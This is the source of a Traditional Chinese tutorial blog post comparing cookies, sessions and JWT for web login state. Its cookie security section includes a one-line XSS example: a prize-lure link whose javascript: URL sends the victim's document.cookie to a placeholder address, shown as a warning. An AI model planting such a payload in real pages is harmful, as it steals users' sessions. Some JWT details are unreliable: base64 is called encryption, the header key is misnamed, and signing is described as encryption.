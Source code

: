 ```yaml
---
title: '身份驗證 - 猜猜我是誰'
description: '網頁的身份驗證機制'
date: '2023-10-26'
category: 'Web'
tags:
  - Web
---
```

# 網頁的身份驗證機制

## 簡介
- HTTP是一個無狀態協議（stateless），不會記住使用者是誰
- 而是把每一次收到的請求都視為獨立的行為
- 當需要記住使用者的狀態時，就需要某種機制來辨識用戶



## 快速比較

|  | Cookie | Session | JWT |
| --- | --- | --- | --- |
| 儲存位置 | 用戶端(瀏覽器) | 伺服器 | 用戶端(local storage or cookie) |
| 安全性 | 相對較低，可以被使用者修改或刪除，可使用Secure和HttpOnly屬性增加安全性 | 相對較高，使用者無法修改或刪除 | 較安全，使用加密算法保護數據 |
| 過期時間 | 通常會設定一段時間後就過期 | 通常會設定一段時間後就過期 | 可以設定過期時間或使用refresh token延長時效性 |
| 資料傳送方式 | 在http request裡的header | 在http request裡的Header，傳送session id回伺服器 | 在http request裡的Header或url(不安全) |
| 使用場景 | 偏向於紀錄簡單的資訊，如用戶偏好、購物車資訊 | 適合存放較多的用戶資訊，如用戶ID、權限等 | 適合在不同的伺服器之間共享身份驗證資訊 |

## cookie

### 是什麼

- 是伺服器傳送給瀏覽器，並在用戶端下次訪問同一網站時，一同傳回的一小段文字資訊

### 特性

- 保存在用戶端
- 例如儲存使用者的偏好設定、購物車資料等
- 通常不會儲存隱私相關的機密資訊
- 有大小數量限制，單個Cookie最大4K，一個網域下最多20個

![cookie](https://harttle.land/assets/img/blog/cookie.png)

### 可自訂到期時間

**Session Cookie**

- 瀏覽器關閉即清除

**Persistent Cookie**

- 可以設定存在瀏覽器一段時間（明確指定 Cookie 的 Expires 時間）

### 安全性

- 在網站上動態渲染任意HTML是很危險的，容易導致XSS攻擊
- 可以加上http only限制只有http協議可以讀取

範例：偷走你的cookie (儲存的帳密等等機密資料)

```html
<a href="javascript:location.href='url'+ document.cookie">恭喜中獎，點我前往領獎</a>
```

## session

### 是什麼

- 在伺服器端儲存用戶資訊的一種方案
- 需要借助cookie，儲存憑證(session ID)

### 特性

- 將使用者相關資訊儲存在伺服器，避免被任意修改
- 在使用者完成身分認證並輸入完所需訊息之後，給予一組特定ID，存入Cookie中傳回用戶端
- 下一次用戶端發出請求時，便可以利用該ID去辨識是否為同一使用者
- 需要在伺服器端儲存相關的 session 資訊，包括使用者身份、過期時間等等，因此需要一定的伺服器資源
- 每次發出請求時，需要頻繁在伺服器端比對session ID和使用者資料
- 通常會把重要隱密資料儲存在session，比較次要的資料會放在cookie
- 多台Server要使用Session的話，會有共享Session的問題產生，導致效能變差

### 驗證流程 

1. 當使用者第一次訪問網站時，伺服器會建立一個唯一的 Session ID，並將其儲存到伺服器端的記憶體或資料庫中
2. 伺服器會將此 Session ID 回傳給瀏覽器，通常是透過 Cookie 的方式儲存
3. 當使用者進一步訪問網站時，瀏覽器會將此 Session ID 傳回給伺服器
4. 伺服器會從記憶體或資料庫中尋找此 Session ID 對應的使用者狀態，如果找不到就視為未經驗證的訪問
5. 如果伺服器找到了對應的使用者狀態，就代表此訪問是合法的，並根據使用者狀態進行相應的操作，比如回傳網頁內容或者進行其他的處理

![session](https://www.freecodecamp.org/news/content/images/2021/02/fireship-cookies.png)

## JWT (Json Web Token)

### 是什麼

- token-based 機制的其中一種實作，以JSON物件為主體
- 通常用於驗證使用者的身份(Authorization)
- 每次發出需要權限的請求時要帶上給伺服器驗證

### 組成

- header：類型、算法，使用base64加密

```json
{
	"type": "JWT",
	"alg": "HS256"
}
```

- payload：使用者相關的資訊

```json
{
	"name": "Jack",
	"grade": "3rd",
	"identity": "student"
}
```

- signature：base64編譯後的 Header、Payload 與密鑰(secret key)透過雜湊演算法所產生

### 特性

- 保存在用戶端(瀏覽器)
- 一般不會把機密資訊(例如密碼)放在payload當中
- 回傳至伺服器只檢查簽名是否正確，不需儲存用戶資料，可減輕伺服器的負擔
- 不用在Server的資料庫存放Session，特別適合多台Server的情境下，使得擴展性容易

### 驗證流程

1. 客戶端向伺服器端發送請求，並在request header中加入JWT Token
2. 伺服器端接收到請求後，從request header中讀取JWT Token
3. 伺服器端對JWT Token進行驗證，包括驗證簽名是否正確、是否過期、是否被篡改等
4. 驗證成功後，伺服器端可以透過JWT Token中的內容，確認使用者的身份，並進行相應的處理
5. 驗證失敗則拒絕請求，或者返回錯誤訊息

![token](https://www.vaadata.com/blog/wp-content/uploads/2016/12/JWT_tokens_EN.png)

## 參考資料

- [Cookie 和 Session 究竟是什麼？有什麼差別？](https://tw.alphacamp.co/blog/cookie-session-difference)
- [自問自答：Session是什麼？與Cookie有什麼差異？](https://chuneck.com/what-is-session/)
- [JWT(JSON Web Token) — 原理介紹](https://medium.com/%E4%BC%81%E9%B5%9D%E4%B9%9F%E6%87%82%E7%A8%8B%E5%BC%8F%E8%A8%AD%E8%A8%88/jwt-json-web-token-%E5%8E%9F%E7%90%86%E4%BB%8B%E7%B4%B9-74abfafad7ba)
- [note JWT](https://pjchender.dev/webdev/note-jwt/)
- [2020 iT邦鐵人賽-成為看起來很強的後端](https://www.youtube.com/playlist?list=PLS5AiLcCHgNxd341NwuY9EOpVvY5Z8VOs)
- [Session、Cookie、Token](https://juejin.cn/post/7073363137281392647)